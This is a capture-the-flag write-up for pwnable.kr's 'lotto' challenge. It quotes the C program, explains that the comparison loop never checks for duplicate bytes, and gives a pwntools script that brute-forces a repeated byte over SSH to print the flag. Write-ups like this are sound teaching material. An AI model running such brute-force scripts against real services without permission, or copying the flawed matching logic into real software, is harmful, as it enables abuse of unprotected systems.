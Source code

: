 # lotto

## Description

lotto - 2 pt

>Mommy! I made a lotto program for my homework. <br>
>do you want to play? <br> <br> <br>
> ssh lotto@pwnable.kr -p2222 (pw:guest)


## Solution

### Exploit

In this challenge, we are presented with a lotto program. Our goal is to win the lotto and get flag:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <fcntl.h>

unsigned char submit[6];

void play(){
	
	int i;
	printf("Submit your 6 lotto bytes : ");
	fflush(stdout);

	int r;
	r = read(0, submit, 6);

	printf("Lotto Start!\n");
	//sleep(1);

	// generate lotto numbers
	int fd = open("/dev/urandom", O_RDONLY);
	if(fd==-1){
		printf("error. tell admin\n");
		exit(-1);
	}
	unsigned char lotto[6];
	if(read(fd, lotto, 6) != 6){
		printf("error2. tell admin\n");
		exit(-1);
	}
	for(i=0; i<6; i++){
		lotto[i] = (lotto[i] % 45) + 1;		// 1 ~ 45
	}
	close(fd);
	
	// calculate lotto score
	int match = 0, j = 0;
	for(i=0; i<6; i++){
		for(j=0; j<6; j++){
			if(lotto[i] == submit[j]){
				match++;
			}
		}
	}

	// win!
	if(match == 6){
		system("/bin/cat flag");
	}
	else{
		printf("bad luck...\n");
	}

}

...
```

The game is simple. We have to submit 6 bytes and the program will generate 6 random bytes in the range [1,45]. If we get 6 matches we win and get the flag!

The key observation here is we don't need to guess *all* 6 bytes. We can guess only 1 byte and get the flag. The reason is that the program compares each byte of our input with each all of the generated bytes. So if we guess 1 byte correctly, we will get 6 matches.

We can write a simple bruteforce script that guesses the same byte for all 6 bytes and checks if we get 6 matches:

```python
from pwn import *

con = ssh('lotto', 'pwnable.kr', port=2222, password='guest')

p = con.process('./lotto')

while True:
    p.recvuntil(b'3. Exit\n')
    p.sendline(b'1')
    p.recvuntil(b'Submit your 6 lotto bytes : ')
    p.sendline(b'######')
    p.recvuntil(b'Lotto Start!\n')
    
    res = p.recvline().decode()
    
    if 'bad' not in res:
        print(res)
        break
```

Running the script gives us the flag:

```
sorry mom... I FORGOT to check duplicate numbers...
```